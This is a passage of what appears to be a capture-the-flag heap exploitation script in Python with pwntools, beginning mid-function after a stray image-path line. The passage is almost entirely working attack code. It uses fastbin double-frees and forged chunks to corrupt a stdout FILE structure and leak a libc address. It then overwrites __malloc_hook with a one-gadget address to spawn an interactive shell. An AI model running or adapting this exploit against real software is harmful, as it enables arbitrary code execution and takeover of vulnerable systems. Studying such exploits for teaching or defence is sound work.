 ```py
    Throw(1)
    Throw(0)
    #fake stdout

    fake_chunk = 0x60201d
    Add('2',0x68,p64(fake_chunk))#2 == ini 0
    Add('3',0x68,'3')
    Add('4',0x68,'4')# 4 == ini 0
    Add('5',0x68,'\x00'*3+p64(0)+p64(0x71)+'\xdd\x25')#

    p.sendline()
    #memeset the buf
    fake_chunk = 0x60203d
    Throw(2)
    Throw(3)
    Throw(2)

    Add('6',0x68,p64(fake_chunk))
    Add('7',0x68,'7')
    Add('8',0x68,'8')
    Add('9',0x68,'\x00'*11+p64(0x31)+p64(0)*10)
    Add('0',0x68,'0')
    Add('1',0x68,'1')
    Throw(0)
    Throw(1)
    Throw(0)
    fake_chunk = 0x602030
    #memset the buf

    Add('2',0x68,p64(fake_chunk))
    Add('3',0x68,'3')
    Add('4',0x68,'4')

    Add('5',0x68,'\x00'*0x68)#0x602020
    Add('0',0x68,'\x00'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')

    #2 == 4
    p.recvuntil("\xff\x7f\x00\x00",drop=True)
    libc_addr = u64(p.recvn(8))
    log.success("libc addr => " + hex(libc_addr))
    libc_base = libc_addr - (0x7ffff7dd26a3-0x7ffff7a0d000)
    libc.address = libc_base
    log.success('libc base => ' + hex(libc_base))
    #2 == 4
    #get shell
    Add('1',0x68,'1')
    Add('2',0x68,'2')
    Throw(1)
    Throw(2)
    Throw(1)
    Add('3',0x68,p64(libc.sym['__malloc_hook']-0x23))
    Add('4',0x68,'4')
    Add('5',0x68,'5')
    Add('6',0x68,'\x00'*0x13+p64(libc_base+gadgets[2]))
    #gdb.attach(p)
    Throw(3)
    Throw(3)
    p.interactive()

exp()
```

